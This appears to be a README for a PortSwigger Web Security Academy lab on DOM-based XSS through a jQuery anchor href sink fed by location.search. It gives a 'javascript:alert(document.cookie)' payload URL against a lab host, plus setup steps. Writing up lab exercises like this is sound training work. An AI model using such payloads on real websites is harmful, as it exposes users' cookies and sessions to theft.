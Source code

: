 # DOM XSS in jQuery anchor href attribute sink using location.search source

## SYNOPSIS
-  jQuery library's $ selector function finds an anchor element, 
-  and changes its href attribute using data from location.search

## PAYLOAD
- Plaintext ```  https://acc61f4d1f44b274c0c728f200f80033.web-security-academy.net/feedback?returnPath=javascript:alert(document.cookie);```

## How to:
- Run build_docker
- Use the payload above
- You should see an alert window

### NOTE
- Tested on both Safari and Chrome
- Only works on CHROME

#### Reference
DOM XSS in jQuery anchor href attribute sink using location.search source \
https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-href-attribute-sink

HTML <a> href Attribute
https://www.w3schools.com/tags/att_a_href.asp
